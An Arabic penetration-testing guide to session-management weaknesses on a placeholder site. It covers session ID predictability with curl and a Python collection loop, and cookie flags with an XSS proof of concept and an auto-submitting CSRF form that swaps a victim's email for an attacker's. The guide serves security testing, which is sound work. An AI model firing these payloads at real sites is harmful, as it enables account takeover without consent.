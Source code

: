 دليل خطوة بخطوة لاختبار ثغرات إدارة الجلسات في موقع إلكتروني. كل محاولة تتضمن وصفًا وتعليمات الاختبار وملخص الأوامر/الأدوات.

---

## المحاولة الأولى: قابلية تخمين معرف الجلسة
**الوصف**: اختبار إذا كان معرف الجلسة (Session ID) قصيرًا أو متوقعًا بحيث يمكن تخمينه.
- **الخطوات**:
  1. سجل دخول إلى `https://target.com/login`.
  2. استخرج الـ Session ID من الكوكيز.
  3. حلل طول ونمط الـ Session ID.
  4. اجمع عدة Session IDs وقارنها.
- **الأدوات/الأوامر**:
  - DevTools: افحص الكوكيز.
  - cURL:
    ```bash
    curl -b "session=abc123" https://target.com/profile
    ```
  - Python:
    ```python
    import requests
    url = "https://target.com/login"
    credentials = {"username": "test@example.com", "password": "password"}
    for _ in range(5):
        response = requests.post(url, data=credentials)
        print(f"Session ID: {response.cookies.get('session')}")
    ```
  - Burp Suite Sequencer: تحليل عشوائية الـ Session IDs.
- **الملخص**:
  - cURL: `curl -b "session=abc123" https://target.com/profile`
  - Python: `python collect_session_ids.py`

---

## المحاولة الثانية: إعدادات الكوكيز
**الوصف**: اختبار إذا كان الكوكيز محمية بـ `Secure`، `HttpOnly`، و`SameSite`.
- **الخطوات**:
  1. استخرج الكوكيز بعد تسجيل الدخول.
  2. افحص إعدادات `Secure`، `HttpOnly`، و`SameSite`.
  3. جرب استغلال أي إعداد مفقود (مثل XSS أو CSRF).
- **الأدوات/الأوامر**:
  - DevTools: افحص الكوكيز.
  - cURL:
    ```bash
    curl -I https://target.com/login
    ```
  - XSS PoC:
    ```javascript
    alert(document.cookie);
    ```
  - CSRF PoC:
    ```html
    <form action="https://target.com/update-profile" method="POST">
        <input type="hidden" name="email" value="attacker@example.com">
        <input type="submit" value="Submit">
    </form>
    <script>document.forms[0].submit();</script>
    ```
- **الملخص**:
  - cURL: `curl -I https://target.com/login`

---